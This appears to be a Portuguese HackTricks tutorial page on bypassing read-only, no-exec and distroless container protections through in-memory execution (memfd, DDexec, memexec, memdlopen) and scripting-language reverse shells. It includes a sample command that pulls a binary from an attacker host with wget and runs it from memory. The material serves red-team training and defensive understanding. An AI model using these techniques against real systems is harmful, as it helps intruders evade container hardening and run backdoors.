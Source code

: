 # Bypass FS protections: read-only / no-exec / Distroless

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Se você está interessado em **carreira de hacking** e hackear o inhackeável - **estamos contratando!** (_fluência em polonês escrita e falada é necessária_).

{% embed url="https://www.stmcyber.com/careers" %}

## Vídeos

Nos vídeos a seguir, você pode encontrar as técnicas mencionadas nesta página explicadas com mais profundidade:

* [**DEF CON 31 - Explorando Manipulação de Memória Linux para Stealth e Evasão**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**Intrusões furtivas com DDexec-ng & dlopen() em memória - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## cenário read-only / no-exec

É cada vez mais comum encontrar máquinas linux montadas com **proteção de sistema de arquivos somente leitura (ro)**, especialmente em contêineres. Isso ocorre porque executar um contêiner com sistema de arquivos ro é tão fácil quanto definir **`readOnlyRootFilesystem: true`** no `securitycontext`:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

No entanto, mesmo que o sistema de arquivos esteja montado como ro, **`/dev/shm`** ainda será gravável, então é falso que não podemos escrever nada no disco. No entanto, esta pasta será **montada com proteção no-exec**, então se você baixar um binário aqui você **não poderá executá-lo**.

{% hint style="warning" %}
Do ponto de vista de uma equipe vermelha, isso torna **complicado baixar e executar** binários que não estão no sistema (como backdoors ou enumeradores como `kubectl`).
{% endhint %}

## Bypass mais fácil: Scripts

Note que mencionei binários, você pode **executar qualquer script** desde que o interpretador esteja dentro da máquina, como um **script shell** se `sh` estiver presente ou um **script python** se `python` estiver instalado.

No entanto, isso não é suficiente para executar seu backdoor binário ou outras ferramentas binárias que você possa precisar rodar.

## Bypasses de Memória

Se você quiser executar um binário, mas o sistema de arquivos não está permitindo isso, a melhor maneira de fazê-lo é **executá-lo da memória**, já que as **proteções não se aplicam lá**.

### Bypass FD + exec syscall

Se você tiver alguns poderosos motores de script dentro da máquina, como **Python**, **Perl** ou **Ruby**, você poderia baixar o binário para executar da memória, armazená-lo em um descritor de arquivo de memória (`create_memfd` syscall), que não será protegido por essas proteções e então chamar uma **`exec` syscall** indicando o **fd como o arquivo a ser executado**.

Para isso, você pode facilmente usar o projeto [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec). Você pode passar um binário e ele gerará um script na linguagem indicada com o **binário comprimido e codificado em b64** com as instruções para **decodificá-lo e descomprimí-lo** em um **fd** criado chamando a syscall `create_memfd` e uma chamada para a syscall **exec** para executá-lo.

{% hint style="warning" %}
Isso não funciona em outras linguagens de script como PHP ou Node porque elas não têm nenhuma **maneira padrão de chamar syscalls brutas** de um script, então não é possível chamar `create_memfd` para criar o **fd de memória** para armazenar o binário.

Além disso, criar um **fd regular** com um arquivo em `/dev/shm` não funcionará, pois você não poderá executá-lo porque a **proteção no-exec** se aplicará.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) é uma técnica que permite que você **modifique a memória do seu próprio processo** sobrescrevendo seu **`/proc/self/mem`**.

Portanto, **controlando o código de montagem** que está sendo executado pelo processo, você pode escrever um **shellcode** e "mutar" o processo para **executar qualquer código arbitrário**.

{% hint style="success" %}
**DDexec / EverythingExec** permitirá que você carregue e **execute** seu próprio **shellcode** ou **qualquer binário** da **memória**.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
Para mais informações sobre esta técnica, consulte o Github ou:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) é o próximo passo natural do DDexec. É um **shellcode demonizado do DDexec**, então toda vez que você quiser **executar um binário diferente**, não precisa relançar o DDexec, você pode apenas executar o shellcode do memexec via a técnica DDexec e então **comunicar-se com este daemon para passar novos binários para carregar e executar**.

Você pode encontrar um exemplo de como usar **memexec para executar binários de um shell reverso PHP** em [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

Com um propósito semelhante ao DDexec, a técnica [**memdlopen**](https://github.com/arget13/memdlopen) permite uma **maneira mais fácil de carregar binários** na memória para depois executá-los. Isso pode até permitir carregar binários com dependências.

## Bypass Distroless

### O que é distroless

Contêineres distroless contêm apenas os **componentes mínimos necessários para executar um aplicativo ou serviço específico**, como bibliotecas e dependências de tempo de execução, mas excluem componentes maiores como um gerenciador de pacotes, shell ou utilitários de sistema.

O objetivo dos contêineres distroless é **reduzir a superfície de ataque dos contêineres eliminando componentes desnecessários** e minimizando o número de vulnerabilidades que podem ser exploradas.

### Shell Reverso

Em um contêiner distroless, você pode **não encontrar nem `sh` nem `bash`** para obter um shell regular. Você também não encontrará binários como `ls`, `whoami`, `id`... tudo que você normalmente executa em um sistema.

{% hint style="warning" %}
Portanto, você **não** poderá obter um **shell reverso** ou **enumerar** o sistema como costuma fazer.
{% endhint %}

No entanto, se o contêiner comprometido estiver executando, por exemplo, um flask web, então o python está instalado, e portanto você pode obter um **shell reverso Python**. Se estiver executando node, você pode obter um shell rev Node, e o mesmo com praticamente qualquer **linguagem de script**.

{% hint style="success" %}
Usando a linguagem de script, você poderia **enumerar o sistema** usando as capacidades da linguagem.
{% endhint %}

Se não houver proteções **`read-only/no-exec`**, você poderia abusar do seu shell reverso para **escrever no sistema de arquivos seus binários** e **executá-los**.

{% hint style="success" %}
No entanto, neste tipo de contêiner, essas proteções geralmente existirão, mas você poderia usar as **técnicas de execução em memória anteriores para contorná-las**.
{% endhint %}

Você pode encontrar **exemplos** de como **explorar algumas vulnerabilidades RCE** para obter shells reversos de linguagens de script e executar binários da memória em [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Se você está interessado em uma **carreira em hacking** e hackear o inhackeável - **estamos contratando!** (_fluência em polonês escrita e falada é necessária_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
